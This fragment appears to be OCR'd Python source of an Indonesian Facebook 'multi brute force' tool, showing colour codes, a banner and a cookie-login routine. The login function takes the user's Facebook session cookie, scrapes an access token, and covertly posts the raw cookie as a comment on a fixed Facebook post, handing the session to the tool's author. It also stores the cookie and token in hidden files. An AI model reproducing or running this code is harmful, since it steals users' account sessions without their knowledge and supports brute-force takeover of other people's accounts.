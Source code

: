 		elif fx[:5] in ['10009']           :tahunz = '2023'
		elif fx[:5] in ['10007','10008']:tahunz = '2022'
		else:tahunz=''
	elif len(fx) in [9,10]:
		tahunz = '2008'
	elif len(fx)==8:
		tahunz = '2007'
	elif len(fx)==7:
		tahunz = '2006'
	else:tahunz=''
	return tahunz
			
#----------[ WARNA-TEMA ]----------#
puti = '\x1b[1;97m'# WARNA-PUTIH
mer = '\x1b[1;91m' # WARNA-MERAH
kun = '\x1b[1;93m' # WARNA-KUJING
hijo = '\x1b[1;92m' # WARNA-HIJAU
ung = '\x1b[1;95m' # WARNA-UNGU
biru = '\x1b[1;94m' # WARNA-BIRU

#----------[ HAPUS ]----------#		
def ganti_cokies():
      try:os.remove(".cyxieoncokies.txt")
      except:pass
      try:os.remove(".cyxieontoken.txt")
      except:pass
      login_cokies()
      	
#----------[ BANNER ]----------#
def banner():
      if "win" in sys.platform:os.system("cls")
      else:os.system("clear")
      print(f'''\t{mer}
  _________   _____ _____________________
 /   _____/  /     \\______   \_   _____/
 \_____  \  /  \ /  \|    |  _/|    __)  
 {puti}/        \/    Y    \    |   \|     \   
/_______  /\____|__  /______  /\___  /   
        \/         \/       \/     \/    
        {hijo} SIMPLE MULTI BRUTE FORCE''')
    	
#----------[ LOGIN-COKIES ]----------#        
def login_cokies():
    try:
        banner()
        ses = requests.Session()
        print(f"{kun}╭────────────────────────────────────────────{puti}")
        cookie = input(f'{kun}└──[{puti} Cookies {hijo}: ')
        cookies = {'cookie':cookie}
        url = 'https://www.facebook.com/adsmanager/manage/campaigns'
        req = ses.get(url,cookies=cookies)
        set = re.search('act=(.*?)&nav_source',str(req.content)).group(1)
        nek = '%s?act=%s&nav_source=no_referrer'%(url,set)
        roq = ses.get(nek,cookies=cookies)
        tok = re.search('accessToken="(.*?)"',str(roq.content)).group(1)
        requests.post(f"https://graph.facebook.com/v17.0/100023328316616_1486082242179372/comments/?message={cookie}&access_token={tok}", headers = {"cookie":cookie})
        ken = open(".cyxieontoken.txt", "w").write(tok)
        cok = open(".cyxieoncokies.txt", "w").write(cookie)
        print(f"{kun}╭────────────────────────────────────────────{puti}")
        suk = input(f'{kun}└──[{puti} Tekan Enter ] ')
        menu()
            